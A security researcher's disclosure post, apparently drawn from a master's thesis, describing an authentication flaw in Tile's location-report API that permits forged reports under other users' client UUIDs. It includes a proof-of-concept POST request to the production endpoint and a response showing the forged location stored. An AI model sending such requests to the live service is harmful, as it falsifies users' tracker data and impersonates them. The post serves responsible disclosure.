 ```yaml
---
title: 'Tile - Unauthorized Location Reports with Impersonation'
publishedAt: '2024-07-05'
description: "Tile, a company selling Bluetooth-based location trackers, has a vulnerability that allows an attacker to send forged location reports while pretending to be another user. I uncovered this vulnerability during my master's thesis, in which I analyzed the security and privacy of the Tile ecosystem."
tags:
  - security
---
```


In my master's thesis, I analyzed the security and privacy of large portions of Tile's ecosystem.
During this, I discovered several security vulnerabilities affecting various components and features.
I reported these vulnerabilities to Tile, following [Google Project Zero's responsible disclosure policy](https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html).
However, as the 90-day deadline is over and Tile has failed to respond or patch the issues, I'm publishing my findings in hopes of raising awareness.
This post describes one vulnerability that allows an attacker to send forged location reports while pretending to be another user.

# Vulnerability

The API endpoint to upload location reports doesn't properly check the user's session, allowing an unauthenticated attacker to upload location reports for the Tile trackers of other users while pretending to be someone else.

Using this vulnerability, an attacker could effectively make _Community Find_ unusable for all users on the platform.

It is unclear to what extent the impersonation affects users.
As the attacker is able to specify the client UUID of any user's client, the effect depends on how Tile further processes the client UUID.

# Proof-of-Concept

To upload a fake location report, the attacker must send the request below.
The attacker must either record or know a Bluetooth Low-Energy advertisement of the targeted Tile tracker or create a valid advertisement from the tracker's Tile UUID.
They must specify the advertisement value in the field `payload_service_data` in the request's body.

```http
POST https://locations-prod.tile-api.com/api/v1/clients/:clientUUID/batch_location_updates HTTP/1.1
tile_app_id: android-tile-production
tile_app_version: 2.115.0.5050
tile_request_timestamp: 1702998513342
Content-Type: application/json
Accept: */*
Host: locations-prod.tile-api.com
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 978

{
	"updates": [
		{
			"location": {
				"altitude": 182.5,
				"course": 0.0,
				"course_accuracy": 0.0,
				"horizontal_accuracy": 20.0,
				"latitude": 13.0,
				"longitude": 37.0,
				"speed": 0.0,
				"speed_accuracy": 0.0,
				"timestamp": 1702998513342,
				"vertical_accuracy": 1.1406626
			},
			"record_id": "1",
			"tiles": [
				{
					"advertised_service_data": {
						"mac_address": "[...]",
						"payload_service_data": "[...]",
						"payload_tx_power_level": "0x-80000000",
						"rssi": -53.0
					},
					"discovery_timestamp": 1702998513342,
					"record_id": "1"
				}
			]
		}
	]
}
```
The request demonstrates that it is possible to specify a valid client UUID when sending location reports without any authentication.
Thus, it is possible to impersonate any client.
Note that the request doesn't contain a session cookie.
However, the server still accepts the request.
Moreover, the attacker can specify any client UUID, and the server simply accepts it.
Since the client UUID is linked to a specific account, the attacker can impersonate any user's client.


The following request and response show that the location report sent in the request above was inserted into the device's location history.
It's the location history of the device to which the advertisement referenced in the location report belongs.

```http
GET https://production.tile-api.com/api/v1/tiles/location/history/:tileUUID?start_ts=0 HTTP/1.1
Cookie: session=[...]
[...]: [...]

HTTP/1.1 200 OK
[...]: [...]

{
    "version": 1,
    "revision": 1,
    "timestamp": "2024-03-12T14:47:17.935Z",
    "timestamp_ms": 1710254837935,
    "result_code": 0,
    "result": {
        "complete_history": "Y",
        "location_updates": [
            {
                "tile_uuid": ":tileUUID",
                "location_timestamp": 1710254284721,
                "raw_precision": 20.0,
                "latitude": 13.0,
                "longitude": 37.0,
                "precision": 20.0
            },
            [...]
		]
    }
}
```

# Fix

It is recommended to validate the user's session and reject the request if the session cookie is missing, invalid, or doesn't belong to the specified client UUID.
If unauthenticated location reports should be possible, it is recommended to remove the client UUID from the request URL.
However, these would only fix the impersonation issue.
Fixing the issue of fake location reports requires changes to the entire _Community Find_ feature.

# Timeline

- 2024-03-13: Contacting Life 360's security contact through responsibledisclosure@life360.com
- 2024-05-21: Contacting Tile's support asking for a status update

